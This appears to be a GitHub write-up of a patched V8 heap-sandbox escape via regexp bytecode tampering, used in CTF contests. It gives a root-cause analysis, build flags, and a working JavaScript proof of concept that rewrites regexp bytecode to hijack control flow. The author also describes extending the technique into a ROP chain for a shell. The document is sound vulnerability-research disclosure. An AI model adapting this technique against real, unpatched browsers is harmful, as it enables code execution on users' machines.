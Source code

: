 # V8 Sandbox Escape via Regexp

This technique achieves arbitrary code execution by modifying and interpreting the bytecode of a `regexp` object. I used this technique to claim V8CTF M122, M123, and blood Maglev in PlaidCTF.

## RCA

Issue: [330404819](https://issues.chromium.org/issues/330404819)

When attackers have the ability to perform out-of-bounds (OOB) read and write operations in the heap sandbox, they can modify `data` field of `regexp` object, which stores the address of bytecode. In the `IrregexpInterpreter::Result RawMatch` function, the bytecode is read and interpreted. Many bytecodes are related to `register` operations, but the `register`s are located on the stack and lack boundary checks (only `DCHECK`). By modifying the bytecode, it is possible to achieve OOB write on the stack and hijack the control flow.

The workflow proceeds as follows: First, generate bytecode using `regex.exec`. Next, modify the bytecode array in data to execute arbitrary bytecode, ensuring to mark tier-up to guarantee the reuse of our malicious bytecode instead of regenerating it. Finally, execute our malicious bytecode again using `regex.exec` on the same string.

Since I could only find a way to move and set registers, I decided to form a ROP chain to get a shell. If there's a way to push RWX addresses onto the stack, it should be possible to achieve direct arbitrary code execution.

This was fixed in commit `b9349d97fd44aec615307c9d00697152da95a66a`.



## Reproduce

The `exp.js` works with debug build of commit `1fd3f98c07afc527a68ee15a9e0d6869defec2a9`.

build flags:

```
is_debug = true
v8_static_library = true
target_cpu = "x64"
v8_enable_sandbox = true
v8_enable_memory_corruption_api=true
```

Use `--sandbox-fuzzing` to enable `Sandbox` at runtime.

The exploit uses `push` and `pop` bytecodes for copying registers, `set` for adding constants on stack and `advance` for calculations.

Poc here hijacks control flow to `0x4141414141414141`, which can be verified via gdb since `--sandbox-fuzzing` will ignore memory violation issues. This should function effectively on other builds, as the offset has been consistently observed to remain unchanged.

```js
// Flags:  --sandbox-fuzzing
let s = "aaaaa";

var sbxMemView = new Sandbox.MemoryView(0, 0xfffffff8);
var addrOf = (o) => Sandbox.getAddressOf(o);

var dv = new DataView(sbxMemView);

var readHeap4 = (offset) => dv.getUint32(offset, true);
var readHeap8 = (offset) => dv.getBigUint64(offset, true);

var writeHeap1 = (offset, value) => dv.setUint8(offset, value, true);
var writeHeap4 = (offset, value) => dv.setUint32(offset, value, true);
var writeHeap8 = (offset, value) => dv.setBigUint64(offset, value, true);

var regex = /[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*/g;
let addr_regex = addrOf(regex);
let data_addr = readHeap4(addr_regex + 0xc);

regex.exec(s);
let bytecode = readHeap4(data_addr + 0x1b);
writeHeap4(data_addr + 0x2f, 2);

let arr = [];

function set_reg(idx, value) {
    arr.push((idx << 8) & 0xffffff00 | 0x08);
    arr.push(value);
}

function success() {
    arr.push(0x0000000e);
}

let idx = 0x52;
set_reg(idx++,0x41414141);
set_reg(idx++,0x41414141);
success();

for (var i = 0; i < arr.length; i++) {
    writeHeap4(bytecode + 0x7 + 4 * i, arr[i]);
}

regex.exec(s);
```
